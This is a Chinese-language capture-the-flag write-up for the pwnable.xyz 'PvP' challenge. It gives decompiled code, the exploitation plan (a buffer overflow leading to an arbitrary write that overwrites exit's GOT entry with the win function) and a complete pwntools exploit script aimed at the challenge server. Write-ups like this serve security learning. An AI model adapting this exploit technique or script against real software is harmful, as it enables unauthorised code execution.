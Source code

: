 有点意思



### 关键代码：

```c
undefined8 main(void)

{
  undefined4 uVar1;
  
  setup();
  puts("PvP - Programmatically vulnerable Program");
  do {
    print_menu();
    uVar1 = read_int32();
    switch(uVar1) {
    case 0:
      return 0;
    case 1:
      if (x._1032_4_ == 0) {
        puts("Message is empty.");
      }
      else {
        short_append();                    // A
      }
      break;
    case 2:
      if (x._1032_4_ == 0) {
        long_append();                     // B
        x._1032_4_ = 1;
      }
      else {
        puts("Message already there.");
      }
      break;
    case 3:
      if (x._1024_8_ != 0) {
        printf("Your msg %s\n",x._1024_8_);
      }
      break;
    case 4:
      save_it();
      break;
    default:
      puts("Invalid");
    }
  } while( true );
}

void save_it(void)

{
  uint uVar1;
  size_t __size;
  
  if (x._1024_8_ == (char *)0x0) {
    __size = strlen(x);
    x._1024_8_ = (char *)malloc(__size);
  }
  printf("How many bytes is your message? ");
  uVar1 = read_int32();
  if (uVar1 < 0x401) {
    strncpy(x._1024_8_,x,(ulong)uVar1);              // C
  }
  else {
    puts("Invalid");
  }
  return;
}

void setup(void)

{
  time_t tVar1;
  
  setvbuf((FILE *)__TMC_END__,(char *)0x0,2,0);
  setvbuf((FILE *)_IO_2_1_stdin_,(char *)0x0,2,0);
  signal(0xe,handler);
  alarm(0x3c);
  tVar1 = time((time_t *)0x0);
  srand((uint)tVar1);
  return;
}

void handler(void)

{
                    /* WARNING: Subroutine does not return */
  exit(1);                                         // D
}
```



### 安全参数

```
[*] '/home/noevil/share/pwn/challenge_43/image/challenge/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```





### 思路：

- 通过A、B行，往全局变量x里写数据，覆盖到offset为1024处的指针，配合C行，实现任意地址写；
- GOT表可写，可以将某个函数的GOT覆盖为win函数；
- 注意到C行的strncpy函数，它的表现比较不同，它不会往目标地址写入空字符'\0'；而准备写入的win函数地址为0x400b2d（3字节），也就是目标地址原来的值不能大于3字节；

​		也就是说，如果原来的值是0x00007f6aa930f5f0，调用strncpy写入会得到0x00007f6aa9400b2d，只有低3字节正确；

​		结合延时绑定的特点，劫持的GOT应该是某个没有被调用过的函数，下断点看看：

![image-20220531232459837](.assets/PvP/image-20220531232459837.png)

发现几个满足条件的函数，如 strlen、__stack_chk_fail、system、malloc、exit，逐个排查，发现只有exit满足要求，D行被调用。





### 脚本

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
e = ELF('./challenge')


p = remote('svc.pwnable.xyz', 30022)
# p = process('./challenge')


win_addr = e.symbols['win']
strcat_addr = e.got['exit']
print('win address', hex(win_addr))
print('strcat address', hex(strcat_addr))


payload = p64(win_addr).rstrip(b'\x00')
payload = payload.ljust(1024, b'a') + p64(strcat_addr)


p.sendafter(b'> ', b'2')
bytes_n = p.recvuntil(b' chars: ')[8:-8]
bytes_n = int(bytes_n.decode('utf-8'))
p.send(payload[0:bytes_n])
print('long append:', bytes_n)


payload_n = len(payload)
while bytes_n < payload_n:
    p.sendafter(b'> ', b'1')
    n = p.recvuntil(b' chars: ')[8:-8]
    n = int(n.decode('utf-8'))
    if bytes_n + n > payload_n:
        n = payload_n - bytes_n
    # print('short append:', n)
    p.send(payload[bytes_n:bytes_n+n])
    bytes_n += n



p.sendafter(b'> ', b'4')
p.sendafter(b'? ', b'3')


# 等一段时间
p.interactive()

```

